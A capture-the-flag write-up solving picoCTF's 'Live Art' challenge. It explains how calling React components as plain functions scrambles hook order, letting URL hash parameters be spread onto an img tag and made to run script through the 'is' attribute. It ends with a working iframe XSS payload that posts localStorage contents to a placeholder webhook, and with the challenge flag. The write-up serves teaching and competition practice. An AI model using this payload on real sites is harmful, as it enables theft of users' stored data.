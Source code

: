 # Live Art

### Problem 

You must exploit the React application via XSS to obtain the flag. 

### Solution

This challenge requires a significant amount of prerequisite knowledge. However, nearly all the teams that solved this challenge did not know how their exploit worked. In this writeup I will explain exactly how the exploit works, on top of how to solve it. 

To start off, we must know that React is inherently very resistant to XSS attacks. React automatically escapes text provided such that even if you do manage to inject script content, the page will not run it and will harmless display a `<script>`.

Upon inspecting the source code, we can see that there are 2 possible vectors to XSS this website. The first is through the art viewing page, where you can impersonate a peer and send your own image src, thus being able to freely control the `src` attribute of an image. However, any attempts to escape out of the `src` attribute will result in utter failure, thanks to the way React works. The second is through the error page. On this page you are able to control the content of a text area as well as the `href` attribute of an anchor tag. Directly attempting to XSS through a link will result in more failures (I tried). 

Don't give up just yet! If you look at our client code, we notice that the error component is called inside the drawing component. Which seems to be placed as a child inside of the `WrapComponentError` component along with it's fellow `Viewer` component. 

Now this design is quite a strange choice. Why does the creator use the `ErrorPage` component inside the `Drawing` page when the `WrapComponentError` automatically redirects when the `Viewer` component errors? 

If we analyze the code a little bit, we can map out the role the error page plays here: 
```tsx
import { Viewer } from "../viewer";
import { ErrorPage } from "../error";
const getWrappedError = WrapComponentError(ErrorPage)
const getWrappedViewer = WrapComponentError(Viewer);
const view = bigEnough
        ? getWrappedViewer({ image })
        : getWrappedError({ error: "Please make your window bigger" });
return (
    <div>
        { view }
    </div>
);
```
This code appears to check if the screen size is big enough. If it is big enough, the page will render in the viewer, otherwise it will render the error component. You can verify this by dragging the screen size around on this page. 

Do you see the problem in this code? Probably not. It would take an extremely experienced React developer to see the bug present here. And I mean *significantly* experienced because even I didn't catch it until much later on. The people who solved this challenge merely found it by pure luck with a little guessing. 

You see, the return statement in the function is something called `JSX` (or in this case `TSX`, because it is TypeScript), which is a syntax extension to JS made by React. This syntax extension allows developers to return HTML-esque expressions in their functions, which React picks up and renders. I won't go into too much detail about that because you can read the React docs yourself, but the part I want to focus on is how React handles JSX. 

When you have a JSX expression like 
```jsx
return (<p><Cool/></p>);

function Cool() {
    return (<p>{cookieCount}</p>)
}
```
React calls the `createElement` function to construct the element, then calls `Cool` to retrieve the JSX there, which again calls `createElement` and is fed into the virtual DOM tree. `Cool` is considered a child element and is rendered under the jurisdiction of it's parent. 

Do you see the problem now? No? 
```tsx
const view = bigEnough
    ? getWrappedViewer({ image })
    : getWrappedError({ error: "Please make your window bigger" });
```

Instead of calling it as a JSX component, the author calls the function directly. This means whatever JSX is in `getWrappedError` or `getWrappedView` is considered a part of the `_Drawing` component, and not a child as it should be. 

Now this looks like a pretty useless bug. But it is time for us to unveil part 2 of obscure required knowledge for this challenge: hooks!

[Hooks](https://reactjs.org/docs/hooks-intro.html) and states are an integral part of React. Consider a state like a current status of any variable. Hooks can be considered wrappers around this. When the state of something changes, the component gets rerendered. This is very useful when you want to update anything on a page and don't want to trigger an entire reload. This explanation is not extremely accurate but it will do for our purposes. 

Another thing to consider is that hooks attach themselves to the component that calls it. For example, the `_Drawing` creates an `image` hook. Internally, React creates a queue for this component, and places all hooks inside this queue. If the hooks are used as intended, this is completely fine. However, as we can see the JSX was not used as intended, and this causes a pretty severe vulnerability. 

Revisiting our live art code, we can see that our `ErrorPage` creates an hook: 
```ts
const params = useHashParams<{ error: string, returnTo: string }>();
//which in turn calls: 
const [params, setParams] = React.useState(getHashParams<T>());
```
Uh-oh! Stinky! Oopsie Woopsie! A little bit of a fcky wucky! A wittle fcko boingo! 

Our code here creates a hook, and if you recall, our ErrorPage was treated as a part of the `_Drawing` page. This means that the hook is now attached to the `_Drawing` component instead of the `ErrorPage` component and placed in the hook queue for `_Drawing`. My stinky-meter is rising. 

Let's take a look at `Viewer`. We are greeted with 
```ts
const [dimensions, updateDimensions] = React.useReducer(//yada yada)
```
Now `useReducer` is another form of a hook. Uh-oh again! This hook is also placed in the former-parent's queue! Moreover, when React accesses the state, it might access the wrong one due to these states being accessed via queue index! My stinky-meter is not doing very well. 

Now basically, if we manage to do a little trickery, we can fool React into using `params` hook from the `ErrorPage` as the `dimensions` of the `Viewer`. Quite stinky indeed.

Now if we scroll down a little...
```tsx
return (
    <div>
        <h1>Viewing</h1>
        <img src={props.image} { ...dimensions }/>
    </div>
)
```
I am heartbroken. The author used spread syntax here. What spread syntax (`...`) does is that it "deflates" the object. For example, if `dimensions` was `{test: 'hi'}`, the code is similar to: `<img src={props.image} { test: 'hi' }/>`. My stinky meter has shattered. Now that's dangerous, don't ya think?

Now we kind of know how to do pwn now: 
1. Start window at < 600px wide and attach an error hash payload (e.g. `#test=hi`) to the link. We want the error page to be triggered first so the hook is placed into the queue. 
2. Increase page width. We can only fire the `resize` event once. If we do it more than once React will place the queue properly. We want to make sure that when the hook initializes in `Viewer` it accesses the incorrect state in the queue which contains our malicious payload. 
3. PWN!

Now that we can inject anything we want into that image, we can try injecting an `onerror` attribute along with a faulty `src` to trigger the JS. However, when we try this, the resize causes the `onerror` to simply vanish. 

Why does this happen? As it turns out, React does not recognize `onerror` as an attribute. `onError` is a valid attribute for this React object, but if we try that, it also disappears. It seems like React expects a `Function` type and not a `string`. How can we get React to insert a valid onerror HTML then?

Onto part 3 of obscure React/HTML knowledge! This is the custom component clue provided. When an HTML element has an `is` attribute, it is defined as a custom element. Taking a closer look at how React renders things internally, it appears that it looks at `isCustomComponentTag`, and if it exists, renders whatever you want it to without giving you a hassle. Apparently, React bails on handling props because it assumes that, since you are using a custom element, you will be handling the props yourself ([citation](https://ethanwu.dev/blog/2021/07/14/redpwn-ctf-2021-md-bin/)). 

This means that if you attach `&is=` to your URL, the JS should run. Now we basically have our solution: 
1. Open popup/iframe to `http://localhost:4000/drawing/wiudsaadwas#error={do_stuff_here}&src=stuff&is=` with a size of < 600px
2. Set size to 601 px
3. Win

To do this, we can use the following payload: 
```html
<body>
    <iframe id="iframe" src="http://localhost:4000/drawing/syahdas#onerror=fetch('WEBHOOK',{method:'POST',headers:[['Content-Type','application/json']],body:JSON.stringify({content:window.localStorage.getItem('username')})})&src=urmom&is=" width="599"></iframe>
    <script>
        setTimeout(function() {
            document.getElementById("iframe").width = 601;
        }, 2000)
    </script>
</body>
```
This code will open an iframe to the page at 599 px, set iframe to 601 px afer 2 seconds, and the code on the page will execute, sending the localStorage content to us through a webhook. 

To PWN successfully, you will need to host this on your own HTTP server and then send the link through the XSS submission page. 

Yay!

Our flag is then `picoCTF{beam_me_up_reacty_eb269a4c}`

P.S. I solved this challenge after it was finished
